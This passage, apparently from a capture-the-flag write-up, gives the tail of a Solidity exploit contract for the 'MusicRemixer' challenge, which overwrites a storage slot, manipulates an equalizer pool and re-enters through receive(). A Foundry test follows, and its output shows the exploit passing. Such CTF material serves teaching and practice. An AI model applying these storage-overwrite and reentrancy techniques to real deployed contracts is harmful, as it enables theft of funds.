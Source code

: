 ```solidity  
   }

   function start() public {  
       sampleEditor.setTempo(233);  
       sampleEditor.updateSettings(0x5ebfdad7f664a9716d511eafb9e88c2801a4ff53a3c9c8135d4439fb346b50bb + 4, type(uint256).max);  
       sampleEditor.adjust();  
       equalizer.equalize{value: 0.11 ether}(0, 1, 0.11 ether);  
       equalizer.equalize{value: 0.11 ether}(0, 2, 0.11 ether);  
       uint256[3] memory amounts = [uint(0.1 ether), uint(0.1 ether), uint(0.1 ether)];  
       inst.approve(address(equalizer), amounts[1]);  
       vocal.approve(address(equalizer), amounts[2]);  
       uint256 lpAmount = equalizer.increaseVolume{value: 0.1 ether}(amounts);  
       equalizer.decreaseVolume(lpAmount);  
   }  
  
   receive() external payable {  
       musicRemixer.finish();  
   }  
}  
```

### Foundry test :

```solidity  
// SPDX-License-Identifier: UNLICENSED  
pragma solidity ^0.8.19;

import "forge-std/Test.sol";  
import "../src/MusicRemixer.sol";  
import "../src/Exploit.sol";

contract reremixTest is Test {  
   MusicRemixer public musicRemixer;  
  
   event FlagCaptured();

   function setUp() public {  
       musicRemixer = new MusicRemixer{value: 100 ether}();  
   }

   function testExploitContract() public {  
       reremixExploit exploit = new reremixExploit{value: 0.5 ether}(address(musicRemixer));  
       vm.expectEmit(false, false, false, false);  
       emit FlagCaptured();  
       exploit.start();  
   }  
}  
```

```  
# forge test --match-path test/testContract.t.sol -vv  
[⠔] Compiling...  
No files changed, compilation skipped

Running 1 test for test/testContract.t.sol:reremixTest  
[PASS] testExploitContract() (gas: 807283)  
Test result: ok. 1 passed; 0 failed; 0 skipped; finished in 5.26ms  
Ran 1 test suites: 1 tests passed, 0 failed, 0 skipped (1 total tests)  
```
